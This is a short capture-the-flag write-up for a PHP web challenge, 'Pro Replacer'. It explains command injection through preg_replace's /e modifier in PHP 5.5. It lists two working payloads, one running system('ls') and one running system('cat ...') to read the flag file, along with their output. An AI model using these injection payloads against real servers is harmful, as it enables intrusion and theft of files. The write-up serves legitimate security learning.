 # Name: Web: Exotic Attacks: Pro Replacer

## Vulnerability

Use of `preg_replace()` function in PHP 5.5 that leads to command injection.

## Exploit

The server executes the `preg_replace()` function with unsanitized parameters from the user.

If you use the `/e` modifier at the end of the regex, the next of the command will be treated as PHP code.
In this way you can execute shell commands.

**Payload 1**

Needle: `m/e`

Replacement: `system('ls')`

Haystack: `m`


Output: `index.php wRtu3ND38n8RNgez`

**Payload 2**

Needle: `m/e`

Replacement: `system('cat wRtu3ND38n8RNgez')`

Haystack: `m`


Output: the flag

Exploit in `../sol/solution.sh`.
